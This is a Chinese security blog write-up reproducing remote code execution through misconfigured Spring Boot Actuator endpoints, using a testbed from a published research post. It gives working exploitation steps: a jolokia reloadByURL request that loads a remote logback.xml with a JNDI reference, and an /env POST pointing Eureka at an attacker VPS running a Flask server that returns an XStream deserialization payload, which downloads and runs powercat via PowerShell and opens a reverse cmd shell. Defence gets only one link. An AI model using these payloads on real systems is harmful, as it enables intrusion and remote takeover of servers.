 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [jianfensec.com](https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

日期: [2019-03-12](https://jianfensec.com/archives/2019/03 "20:16:20") 更新: 2020-04-08 分类: [漏洞复现](https://jianfensec.com/categories/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

漏洞分析源地址：  
[https://www.veracode.com/blog/research/exploiting-spring-boot-actuators](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

关于 springboot 监控可以参考以下文章：  
[https://www.freebuf.com/news/193509.html](https://www.freebuf.com/news/193509.html)

测试环境，原作者提供的 github：  
[https://github.com/artsploit/actuator-testbed](https://github.com/artsploit/actuator-testbed)

复现过程：

#### [](#1-Remote-Code-Execution-via-‘-jolokia’ "1.Remote Code Execution via ‘/jolokia’")1.Remote Code Execution via ‘/jolokia’

前置条件：  
在 jolokia/list 目录检索存在 logback 组件, 则可以使用 jolokia 远程包含 logback.xml 配置文件，直接执行远程引用字节码：  
[http://127.0.0.1:9090/jolokia/list](http://127.0.0.1:9090/jolokia/list)  
![](https://jianfensec.com/images/2019/03/4140320665.png)

1）在 VPS 上创建 logback.xml，logback 中填写 jndi 服务，当调用时直接触发恶意 class。

```
<configuration>
  <insertFromJNDI env-entry- />
</configuration>
```

![](https://jianfensec.com/images/2019/03/1172285257.png)

2）创建反弹 shell 的恶意 class, 并监听端口 8081  
javac Exploit.java -> Exploit.class  
![](https://jianfensec.com/images/2019/03/3849118789.png)  
3）利用 marshalsec 创建 jndi server 地址指向恶意 class 监听的端口 8081：  
![](https://jianfensec.com/images/2019/03/1439155234.png)  
4）监听反弹 shell 端口：

4）访问 springboot 以下链接触发远程访问 VPS 地址 logback.xml：  
[http://127.0.0.1:9090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS 地址: 8080!/logback.xml](http://127.0.0.1:9090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS%E5%9C%B0%E5%9D%80:8080!/logback.xml)  
触发回显 2333 端口接收到主机 whomai 结果：  
![](https://jianfensec.com/images/2019/10/420084106.png)

#### [](#2-Config-modification-via-‘-env’ "2. Config modification via ‘/env’")2. Config modification via ‘/env’

当第一种找不到 logback 配置可以尝试修改 env 配置文件进行 xstream 反序列化  
前置条件：  
Eureka-Client <1.8.7（多见于 Spring Cloud Netflix）  
比如测试前台 json 报错泄露包名就是使用 netflix：  
![](https://jianfensec.com/images/2019/03/1695128671.png)  
需要以下 2 个包

```
spring-boot-starter-actuator（/refresh刷新配置需要）
spring-cloud-starter-netflix-eureka-client（功能依赖）
```

1）在 VPS 创建 xstream 文件，使用 flask 返回 application/xml 格式数据：

```
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods = ['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value>
      <dataHandler>
        <dataSource>
          <is>
            <cipher>
              <serviceIterator>
                <iter>
                  <iter/>
                  <next>
                    <command>
					<string>powershell</string>
                    <string>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');</string>
                      <string>powercat -c [vps地址] -p 2333 -e cmd</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter>
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next>foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')
if __name__ == "__main__":
    app.run(host='172.31.245.127', port=2333)
```

2）启动服务：

```
python3 flask_xstream.py
```

3）写入配置：

```
POST /env HTTP/1.1
Host: 127.0.0.1:9090
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

eureka.client.serviceUrl.defaultZone=http://vps:2333/xstream
```

![](https://jianfensec.com/images/2019/03/134312817.png)

刷新触发 [POST]：  
**一般情况需要等待 3 秒会有响应包，如果立即返回可能是服务缺少 spring-boot-starter-actuator 扩展包无法刷新漏洞则无法利用。**  
![](https://jianfensec.com/images/2019/03/3068556996.png)  
获取反弹 shell：  
![](https://jianfensec.com/images/2019/03/3495674142.png)

### [](#安全措施可参考： "安全措施可参考：")安全措施可参考：

[https://xz.aliyun.com/t/2233](https://xz.aliyun.com/t/2233)

如无特殊说明，均为原创内容。转载请注明出处！